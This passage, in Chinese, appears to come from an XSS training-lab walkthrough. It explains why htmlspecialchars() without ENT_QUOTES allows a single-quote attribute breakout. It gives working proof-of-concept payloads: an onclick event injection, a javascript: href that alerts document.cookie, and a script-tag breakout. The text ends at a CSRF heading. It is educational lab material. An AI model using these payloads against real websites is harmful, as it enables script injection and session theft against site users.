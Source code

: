 此处xss漏洞可能存在的原因是：htmlspecialchars()函数默认对双引号编码，开发者不对单引号进行过滤( flags != ENT_QUOTES )的话就可能导致xss发送

payload:

```
' onclick='alert(1)'  #第一个单引号构造闭合；其后两个单引号确保参数不被过滤
```

![](https://i.loli.net/2021/02/13/lOBqcQizpEeoL32.png)

![](https://i.loli.net/2021/02/13/px138UhcSXsrZFn.png)

这里也可以用

```
' onclick='alert(1)
```

输入' onclick='alert(1)，检查如下：

![](https://i.loli.net/2021/02/13/B3ol2DxtfuWyCOJ.png)

则可直接' onclick='alert(1)即可构造闭合

![](https://i.loli.net/2021/02/13/GHZ3l2Mh6cdVeY5.png)



### xss之href输出

当输出在a标签里的href属性时，可以用js协议来执行js代码

```
javascript:alert(document.cookie)
```

![](https://i.loli.net/2021/02/13/agRLiSwItMkbPpc.png)

### xss之js输出

先尝试`javascript:alert(document.cookie)`

![](https://i.loli.net/2021/02/13/6MujQIK5EToaROw.png)

发现我们的输入被插入到了`<script>`和`</script>`之间![](https://i.loli.net/2021/02/13/1uqfpyblSezWXaM.png)

可以根据此构造闭合：

```
</script><script>javascript:alert(document.cookie)</script>
```

![](https://i.loli.net/2021/02/13/SWBmEryhnje5VMt.png)



## CSRF
